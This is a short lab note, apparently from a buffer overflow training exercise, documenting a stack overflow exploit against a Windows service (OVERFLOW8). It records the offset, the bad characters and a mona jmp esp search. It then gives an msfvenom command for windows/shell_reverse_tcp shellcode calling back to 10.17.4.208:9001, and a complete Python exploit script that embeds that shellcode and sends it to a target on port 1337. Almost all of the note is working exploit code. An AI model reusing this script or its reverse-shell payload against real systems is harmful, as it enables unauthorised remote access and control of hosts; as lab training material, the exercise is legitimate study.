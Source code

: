 ## fuzzing

![[Pasted image 20210530154629.png]]

## offset

EIP: 68433568

offset: 1786

![[Pasted image 20210530154838.png]]

## bad chars

ESP: 01A0FA30

bad chars: `\x00\x1d\x2e\xc7\xee`

## jmp point

`!mona jmp -r esp -cpb "\x00\x1d\x2e\xc7\xee"`

![[Pasted image 20210530155259.png]]

`625011AF`

little endian: `\xaf\x11\x50\x62`

## exploit 

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.4.208 LPORT=9001 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x1d\x2e\xc7\xee"`

![[Pasted image 20210530155448.png]]


```python
import socket

ip = "10.10.171.241"
port = 1337

prefix = "OVERFLOW8 "
offset = 1786
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = (
"\xdb\xc2\xd9\x74\x24\xf4\xba\x80\xd6\x0e\x14\x5b\x29\xc9\xb1"
"\x52\x31\x53\x17\x03\x53\x17\x83\x43\xd2\xec\xe1\xbf\x33\x72"
"\x09\x3f\xc4\x13\x83\xda\xf5\x13\xf7\xaf\xa6\xa3\x73\xfd\x4a"
"\x4f\xd1\x15\xd8\x3d\xfe\x1a\x69\x8b\xd8\x15\x6a\xa0\x19\x34"
"\xe8\xbb\x4d\x96\xd1\x73\x80\xd7\x16\x69\x69\x85\xcf\xe5\xdc"
"\x39\x7b\xb3\xdc\xb2\x37\x55\x65\x27\x8f\x54\x44\xf6\x9b\x0e"
"\x46\xf9\x48\x3b\xcf\xe1\x8d\x06\x99\x9a\x66\xfc\x18\x4a\xb7"
"\xfd\xb7\xb3\x77\x0c\xc9\xf4\xb0\xef\xbc\x0c\xc3\x92\xc6\xcb"
"\xb9\x48\x42\xcf\x1a\x1a\xf4\x2b\x9a\xcf\x63\xb8\x90\xa4\xe0"
"\xe6\xb4\x3b\x24\x9d\xc1\xb0\xcb\x71\x40\x82\xef\x55\x08\x50"
"\x91\xcc\xf4\x37\xae\x0e\x57\xe7\x0a\x45\x7a\xfc\x26\x04\x13"
"\x31\x0b\xb6\xe3\x5d\x1c\xc5\xd1\xc2\xb6\x41\x5a\x8a\x10\x96"
"\x9d\xa1\xe5\x08\x60\x4a\x16\x01\xa7\x1e\x46\x39\x0e\x1f\x0d"
"\xb9\xaf\xca\x82\xe9\x1f\xa5\x62\x59\xe0\x15\x0b\xb3\xef\x4a"
"\x2b\xbc\x25\xe3\xc6\x47\xae\x06\x06\x43\xfe\x7f\x2a\x4b\xdd"
"\x56\xa3\xad\x4b\xb9\xe5\x66\xe4\x20\xac\xfc\x95\xad\x7a\x79"
"\x95\x26\x89\x7e\x58\xcf\xe4\x6c\x0d\x3f\xb3\xce\x98\x40\x69"
"\x66\x46\xd2\xf6\x76\x01\xcf\xa0\x21\x46\x21\xb9\xa7\x7a\x18"
"\x13\xd5\x86\xfc\x5c\x5d\x5d\x3d\x62\x5c\x10\x79\x40\x4e\xec"
"\x82\xcc\x3a\xa0\xd4\x9a\x94\x06\x8f\x6c\x4e\xd1\x7c\x27\x06"
"\xa4\x4e\xf8\x50\xa9\x9a\x8e\xbc\x18\x73\xd7\xc3\x95\x13\xdf"
"\xbc\xcb\x83\x20\x17\x48\xa3\xc2\xbd\xa5\x4c\x5b\x54\x04\x11"
"\x5c\x83\x4b\x2c\xdf\x21\x34\xcb\xff\x40\x31\x97\x47\xb9\x4b"
"\x88\x2d\xbd\xf8\xa9\x67"
)

postfix = ""

buffer = prefix + overflow + retn + padding + payload  + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```